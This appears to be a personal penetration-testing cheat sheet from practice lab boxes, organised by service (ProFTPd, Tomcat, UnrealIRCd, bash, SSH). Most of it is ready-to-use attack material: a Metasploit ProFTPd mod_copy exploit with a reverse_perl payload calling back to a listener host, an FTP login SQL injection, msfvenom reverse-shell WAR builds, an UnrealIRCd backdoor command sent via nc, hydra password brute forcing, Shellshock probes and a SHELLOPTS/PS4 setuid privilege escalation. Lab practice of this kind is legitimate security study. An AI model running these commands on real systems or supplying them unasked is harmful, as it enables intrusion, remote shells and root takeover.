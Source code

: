 # ProFTPd

## ProFTPd 1.3.5, mod_copy
	Any Linux server running Proftp version < 1.3.5 are vulnerable.
	https://raw.githubusercontent.com/t0kx/exploit-CVE-2015-3306/master/exploit.py
	https://www.exploit-db.com/exploits/36742
	https://www.exploit-db.com/exploits/36803
	use exploit/unix/ftp/proftpd_modcopy_exec
	set RHOST 192.168.6.154
	set SITEPATH /var/www/html/test
	set TARGETURI /test/
	set PAYLOAD cmd/unix/reverse_perl
	set LHOST 192.168.6.138
	run

	id


## ProFTPD 1.2.8 - 1.2.9 mod_sql
	
Boxes : Relativity

	└─$ ftp 172.16.16.128
	Connected to 172.16.16.128.
	220 Welcome to Relativity FTP (mod_sql)
	Name (172.16.16.128:kali): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
	331 Password required for %').
	Password:1  <== WHY ?
	230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> ls 
	200 PORT command successful


# vsftpd

- The default location for pub ftp on CentOS : __/var/ftp/pub/__

# Tomcat

Boxes : sleepy

- Default : 
	1. _/etc/tomcat/tomcat-users.xml_
	2. _/etc/tomcat/server.xml_
- Shell
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.1 LPORT=1234 -f war > shell.war
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f war -o evil.war



# UnrealIRCd 3.2.8.1

Boxes : Relativity

	echo "AB;<command>" |nc <IRCd address> <port>

# HTTP auth basic

	# Brute force
	$ hydra -l admin  -p darkweb2017-top100.txt  a.b.c.d http-get


# Bash [v1.14 - v4.3 ]


## Shellshock bash [v1.14 - v4.3 ]

Boxes : sleepy

	env var='() { ignore this;}; echo VULN' bash -c /bin/true  
	env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
	env X=' () { }; echo hello' bash -c 'date'
	shellshocker='() { echo You are vulnerable; }' bash -c shellshocker

	curl -A " () { :; }; echo VULN " {URL}
	telnet <serveur_internet_sous_notre_controle> 8888
	# export function
	bash-4.2$ function /usr/bin/sl () { /bin/bash; }
	bash-4.2$ export -f /usr/bin/sl

## SHELLOPTS and PS4

Boxes : K2

    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(chown root:root /tmp/egg && chmod +s /tmp/egg)' /bin/sh -c '/usr/local/bin/whoisme'



# nginx

- Default path
	
	/nginx/usr/share/nginx/html/

# Wordpress

- Theme twentynineteen : /var/www/html/wordpress/wp-content/themes/twentynineteen/

# SSH

	ssh -t user@host $SHELL --norc --noprofile
